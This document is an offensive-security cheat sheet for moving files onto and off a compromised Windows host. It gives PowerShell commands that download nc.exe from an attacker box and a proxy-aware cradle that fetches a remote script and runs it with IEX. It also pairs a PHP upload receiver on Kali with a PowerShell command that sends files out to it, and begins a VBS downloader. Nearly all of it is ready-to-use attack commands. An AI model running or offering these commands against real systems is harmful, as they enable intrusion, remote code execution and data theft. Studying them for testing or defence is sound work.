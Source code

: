 ```
powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://[attack box ip]/nc.exe -Destination C:\
```

### Powershell Downloads: Invoke-WebRequest

* The Invoke-WebRequest cmdlet is simple and easy to use and is available in Powershell version 3.0 and higher.
* Downloading large files with this method may cause memory issues.
* Recommended to use the System.Net.Web.Client method for transferring large files.

```
powershell Invoke-WebRequest -Uri http://[ip attack box]/nc.exe -OutFile C:\nc.exe
```

* For this cmdlet to work the target host needs to have at least Powershell 3.0
* You can check the version of Powershell by using the following command

```
powershell $PSVersionTable.PsVersion
```

### Proxy Aware Powershell Downloader&#x20;

```
$w=(New-Object Net.WebClient);$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;IEX $w.DownloadString("<url>")
```

* **Description:** _'Most large orgs are using web proxies these days. The standard PowerShell download cradle is not proxy aware. Use this one.'_

### **Upload Windows data through HTTP Post request**

make /var/www/upload.php on kali

```
<?php
$uploaddir = '/var/www/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Upload file in Windows client

```
powershell (New-Object System.Net.WebClient).UploadFile('http://<IP>/upload.php', '<FILE>')
```

### **VBS download files for Windows XP**

Create vbs script

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
```